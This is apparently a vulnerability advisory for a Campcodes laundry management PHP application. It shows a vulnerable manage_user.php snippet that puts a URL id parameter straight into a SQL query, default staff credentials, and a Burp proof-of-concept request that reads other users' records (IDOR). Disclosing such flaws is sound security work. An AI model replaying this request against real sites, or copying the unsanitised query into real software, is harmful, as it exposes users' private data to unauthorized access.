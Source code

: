 ## Online Laundry Management System

## IDOR on `manage_user.php`

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
staff
staff
```

### Affected Page:

```
/manage_user.php
```

A vulnerability classified as Insecure Direct Object Reference (IDOR) was discovered on the `manage_user.php` page of a web application. This flaw allows attackers to manipulate URL or HTTP request parameters to bypass access controls and unauthorizedly access other users' information. 

```php
# manage_user.php
include('db_connect.php');
if(isset($_GET['id'])){
	$user = $conn->query("SELECT * FROM users where id =".$_GET['id']);
	foreach($user->fetch_array() as $k =>$v){
		$meta[$k] = $v;
	}
}
```

### Proof of Concept:

**Burp Request:**

```
GET /manage_user.php?id=4 HTTP/1.1
Host: 192.168.150.131
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Referer: http://192.168.150.131/index.php?page=users
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=odflank1n9b26vhfh1heeu1u4j
Connection: close


```

**Screenshot:**

![image-20240512144114233](./screenshot/image-20240512144114233.png)

